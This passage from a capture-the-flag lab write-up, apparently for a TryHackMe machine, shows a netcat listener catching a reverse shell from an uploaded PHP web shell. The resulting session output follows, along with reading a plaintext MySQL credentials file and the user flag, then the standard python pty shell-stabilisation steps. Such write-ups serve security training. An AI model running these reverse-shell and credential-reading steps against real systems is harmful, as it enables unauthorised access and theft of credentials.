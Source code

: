 ## Gaining shell access

Setting up a `NetCat` listener is a matter of running the command `nc -nlvp 1234`. Which has to be done before trying to load the web shell which in my case was located at <http://10.10.62.182/content/attachment/webshell.phtml>. 

The netcat reverse shell got the signal and got connected to the system as user `www-data`.

```commandline
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.62.182] 56896
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 13:26:50 up  2:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Looked a bit around:

```commandline
$ ls /home/                                                                                       
itguy
$ ls /home/itguy/
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cd /home/itguy
$ ls Desktop
$ ls Documents
$ cat mysql_login.txt
rice:randompass
$ cat user.txt
THM{63****e9271952aad1113b6f1a****07}
```

At this point, it looks like I was lazy like this admin, because I didn't stabilize my shell yet. Ant that was a pain. So now first stabilizing it. firstly, by executing that famous `python -c 'import pty;pty.spawn("/bin/bash")'` command, then entering `TERM=xterm`, pressing `CTRL + z` to background the process, with finally the stty `raw -echo; fg` command to bring me back where I was. A free `Enter` press is also required to see back the prompt.
